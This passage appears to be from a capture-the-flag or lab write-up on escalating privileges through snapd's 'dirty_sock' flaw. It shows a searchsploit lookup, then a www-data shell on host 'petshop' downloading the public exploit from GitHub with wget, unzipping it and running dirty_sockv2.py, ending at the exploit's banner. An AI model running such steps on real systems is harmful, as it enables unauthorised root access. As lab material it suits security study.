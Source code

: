 > **Privilege Escalation with Snapd Service**
> 

`searchsploit Snapd 2.32`

```bash
---------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                  |  Path
---------------------------------------------------------------------------------------------------------------- ---------------------------------
snapd < 2.37 (Ubuntu) - 'dirty_sock' Local Privilege Escalation (1)                                             | linux/local/46361.py
snapd < 2.37 (Ubuntu) - 'dirty_sock' Local Privilege Escalation (2)                                             | linux/local/46362.py
---------------------------------------------------------------------------------------------------------------- ---------------------------------
```

```bash
www-data@petshop:/tmp$ wget https://github.com/initstring/dirty_sock/archive/master.zip

Saving to: 'master.zip'

     0K .......... .......... .                                24.7M=0.001s

2024-09-22 11:55:26 (24.7 MB/s) - 'master.zip' saved [22384]

www-data@petshop:/tmp$ unzip master.zip
Archive:  master.zip
c68e35ae3eb7f49a398c7d7f35bb920c79dc9b0e
   creating: dirty_sock-master/
   creating: dirty_sock-master/.github/
   creating: dirty_sock-master/.github/ISSUE_TEMPLATE/
  inflating: dirty_sock-master/.github/ISSUE_TEMPLATE/bug_report.md  
  inflating: dirty_sock-master/LICENSE  
  inflating: dirty_sock-master/README.md  
  inflating: dirty_sock-master/dirty_sockv1.py  
  inflating: dirty_sock-master/dirty_sockv2.py  

www-data@petshop:/tmp$ cd dirty_sock-master
www-data@petshop:/tmp/dirty_sock-master$ ls -lsa
ls -lsa
total 76
 4 drwxr-xr-x 3 www-data www-data  4096 May  9  2019 .
 4 drwxrwxrwt 3 root     root      4096 Sep 22 11:56 ..
 4 drwxr-xr-x 3 www-data www-data  4096 May  9  2019 .github
36 -rw-r--r-- 1 www-data www-data 35071 May  9  2019 LICENSE
 8 -rw-r--r-- 1 www-data www-data  6104 May  9  2019 README.md
 8 -rwxr-xr-x 1 www-data www-data  5501 May  9  2019 dirty_sockv1.py
12 -rwxr-xr-x 1 www-data www-data  8696 May  9  2019 dirty_sockv2.py

www-data@petshop:/tmp/dirty_sock-master$ python3 dirty_sockv2.py

      ___  _ ____ ___ _   _     ____ ____ ____ _  _ 
      |  \ | |__/  |   \_/      [__  |  | |    |_/  
      |__/ | |  \  |    |   ___ ___] |__| |___ | \_ 
                       (version 2)

//=========[]==========================================\\
|| R&D     || initstring (@init_string)                ||
|| Source  || https://github.com/initstring/dirty_sock ||
|| Details || https://initblog.com/2019/dirty-sock     ||
\\=========[]==========================================//
```